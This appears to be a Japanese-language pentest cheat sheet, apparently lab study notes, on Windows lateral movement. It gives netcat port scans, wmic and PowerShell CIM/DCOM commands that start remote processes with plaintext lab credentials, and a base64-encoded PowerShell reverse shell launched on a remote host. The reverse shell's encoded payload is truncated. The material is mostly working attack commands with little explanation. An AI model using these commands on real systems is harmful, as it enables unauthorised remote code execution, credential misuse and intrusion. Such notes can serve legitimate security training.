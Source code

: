 [toc]

### PortScan

[portscan](../portscan.md)

```cmd
nc.exe -nzvv -w 1 10.10.44.142 1-6000
nc.exe -nzvv -w 1 10.10.44.142 1-500
nc.exe -nzvv -w 1 10.10.44.142 5900-6000
```



### WMI and WinRM

リモートアクセスには135番ポートのRPC（Remote Procedure Calls）2を通じて通信

#### wmic

```cmd
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "cmd"
```

##### powershell

```powershell
# credentialオブジェクトの作成
$username = 'web_svc';
$password = 'Diamond1';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; #パスワードを保護
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString #PSCredentialオブジェクトを作成

# セッションを作成
$options = New-CimSessionOption -Protocol DCOM #共通情報モデル (CIM) を作成.プロトコルにDCOMを指定
$session = New-Cimsession -ComputerName 10.10.44.142 -Credential $credential -SessionOption $Options
$command = 'cmd';

# コマンド実行
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

リバースシェルの場合

[pythonでpsのリバースシェルをbase64エンコード版で作成する](../Tools/python.md/#powershellリバースシェルをbase64でエンコード)

```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname